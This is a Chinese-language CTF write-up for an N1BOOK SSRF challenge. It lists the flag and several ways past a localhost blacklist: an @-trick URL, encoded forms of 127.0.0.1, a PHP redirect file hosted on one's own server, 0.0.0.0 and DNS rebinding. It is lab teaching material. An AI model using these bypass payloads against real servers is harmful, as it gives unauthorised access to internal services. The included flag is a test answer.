




## flag
n1book{1132e28b5433c878}

## 思路
1. 访问环境时显示url不存在，构造url测试。    
     
   
2. 根据[SSRF training](N1BOOK/[第二章%20web进阶]的做题经验，这里构造payload。报错显示`host`字段不能包含`!@#$%^&'"*()+=:;/`字符  
```url=http://www.baidu.com@127.0.0.1:8000/api/internal/secret```  
   
3. 利用8进制、16进制、双字符、多进制混合编码、ipv6的127.0.0.1也没有绕过。[SSRF教程](https://www.smi1e.top/%E9%80%9A%E8%BF%87%E4%B8%80%E9%81%93%E5%AE%A1%E8%AE%A1%E9%A2%98%E4%BA%86%E8%A7%A3ssrf/)
   ```
   0x7f.0x0.0x0.0x1
   0177.0.0.01
   2130706433
   0177.0.0.0x1
   ::1
   ```
4. 利用服务器构造302跳转，在自己的服务器构建`302.php`，内容如下,构造`url=http://{your_server}/302.php`，得到flag。根据官方wp，本题还可以构造`url=http://0.0.0.0:8000/api/internal/secret`得到flag。  
   ```php
   <?php
   header("location: http://127.0.0.1:8000/api/internal/secret")
   ?>
   ```
   

## 总结
SSRF通过服务器发起请求，需要根据实际后端情况来进行SSRF，常用127.0.0.1黑名单绕过如下。
- 利用8进制、16进制、双字符、多进制混合编码、ipv6的127.0.0.1
   ```
   0x7f.0x0.0x0.0x1
   0177.0.0.01
   2130706433
   0177.0.0.0x1
   ::1
   ```
- 利用自己服务器的302跳转，302.php
   ```php
   <?php
   header("location: http://127.0.0.1:8000/api/internal/secret")
   ?>
   ```
- `0.0.0.0`，本机上的所有 IPv4 地址
- dns rebinding，第一次解析到非本机，第二次解析的本机